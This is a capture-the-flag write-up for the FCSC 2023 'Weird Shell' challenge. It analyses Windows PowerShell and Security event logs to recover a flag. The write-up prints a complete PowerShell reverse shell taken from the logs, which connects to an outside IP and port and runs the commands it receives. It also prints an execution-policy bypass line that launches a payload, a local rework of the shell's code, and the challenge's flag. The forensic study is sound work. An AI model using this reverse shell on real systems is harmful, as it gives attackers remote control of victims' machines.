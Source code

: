 # Weird Shell

# Original challenge 🇫🇷
Un autre utilisateur a un comportement similaire à La gazette de Windows (catégorie intro). Mais cette fois, pour retrouver ce qui a été envoyé à l'attaquant il faudra peut-être plus de logs.

# Translated challenge 🇺🇸
Another user has similar behavior to Windows Gazette (intro category). But this time, to find what was sent to the attacker, you may need more logs.

# Solution
Once again, we are dealing with an .evtx file, we can use the Windows Event Viewer to explore it.

Search for Windows Event Viewer and open it.

Open the Microsoft-Windows-PowerShell4Operational.evtx  and Security.evtx files.

On the Microsoft Windows PowerShell4Operational file, we can notice that there are two warning events with the following Script Block :

```
Création du texte Scriptblock (1 sur 1) : 
if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'C:\Users\jmichel\Downloads\payload.ps1'

ID Scriptblock : dcb325dd-1c30-46bd-8363-81083ac85323
Chemin d'accès : 
```

and 

```
Création du texte Scriptblock (1 sur 1) : 
do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name).ToString()))))).Replace('-', '').ToLower())}`n"
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()


ID Scriptblock : 2354b750-2422-42a3-b8c2-4fd7fd36dfe7
Chemin d'accès : D:\PAYLOAD.PS1
```
![Capture d'écran 2023-05-12 181933](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/blob/main/screenshots/Screenshot_2023-05-12_181933.png)

![Capture d'écran 2023-05-12 180745](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/blob/main/screenshots/Screenshot_2023-05-12_180745.png)

The payload file has been given the authorization to be executed

The payload is writing an encrypted stream

To reconstruct what was sent, we need the $PID and the System.Security.Principal.WindowsIdentity

These information are available on the security logs : 

We can read it from the event at : 16:26:50 : 
```
SubjectUserName : cmaltese 
SubjectDomainName : FCSC 
ProcessId : 0xecc 
```
![Identity](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/blob/main/screenshots/Identity.png)

![processId](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/blob/main/screenshots/processId.png)


We don't need to have the server at the IP address available to reconstruct what was really sent.

We can skip the connexion part and create on powershell a script block with only the interesting part of the code as the following :


```
$ScriptBlock = {


$StreamWriter = New-Object IO.StreamWriter([System.Console]::OpenStandardOutput())
function WriteToStream ($String) {
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$processID = "3788"  # Replace with the desired process ID, 3788 is 0xecc in hex
$WindowsIdentity = "FCSC\cmaltese"
WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(($processID + $WindowsIdentity).ToString()))))).Replace('-', '').ToLower())}`n"


while($true) {
    $Command = Read-Host "PS > "
    if($Command -eq "exit") { break }

    $Output = try {
        Invoke-Expression $Command 2>&1 | Out-String
    } catch {
        $_ | Out-String
    }

    WriteToStream ($Output)
}

$StreamWriter.Close()

}
```

# Result
By running the edited Block Script we have the correct flag :

FCSC{21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa}
